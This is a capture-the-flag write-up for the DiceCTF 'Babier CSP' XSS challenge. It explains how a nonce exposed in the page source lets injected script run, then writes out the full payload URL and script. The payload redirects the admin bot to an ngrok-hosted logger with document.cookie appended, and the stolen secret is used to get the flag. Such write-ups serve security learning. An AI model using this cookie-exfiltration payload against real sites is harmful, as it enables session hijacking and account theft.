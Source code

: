 Author: Gabrielle George
Date: Feb 6, 2021

Write-up for Babier CSP (XSS challenge)


This is a XSS challenge that involves 2 websites: an insecure one that has a XSS vulnerability (babier-csp.dicec.tf) and another website (Admin Bot)  that simply goes to any input URL. 
Here’s the vulnerable website.  All it does is give you a random fruit if you click “view fruit”. 

The vulnerable website allows you to execute any javascript as long as you include the NONCE in the tag, which is conveniently exposed if you view the page source:


The point of the challenge is to steal the cookie (“secret”) from the Admin Bot when it visits the vulnerable website.  To do this, I started an internet-accessible server using xampp and ngrok.  After googling a bunch, I found that you can save “Get” data  to a log file using this PHP code running on your server:


The payload forced the Admin Bot to go to my malicious server and put its document.cookie value as the get data, thereby logging it on my server:

The text is:
https://babier-csp.dicec.tf/?name=<script nonce=LRGWAXOY98Es0zz0QOVmag==>document.location="http://7b827dd62072.ngrok.io/cooks/untitled.php?cookie="%2Bdocument.cookie</script>

The payload is: 
<script nonce=LRGWAXOY98Es0zz0QOVmag==>
document.location='http://7b827dd62072.ngrok.io/cooks/untitled.php?cookie='+document.cookie;</script>
And there it is!


To get the flag, I looked at the index.js they included in the downloads, to find a reference to a URL that mentioned the variable SECRET.

This told me I had to put the secret in the url of the vulnerable site. And sure enough, flag captured! 

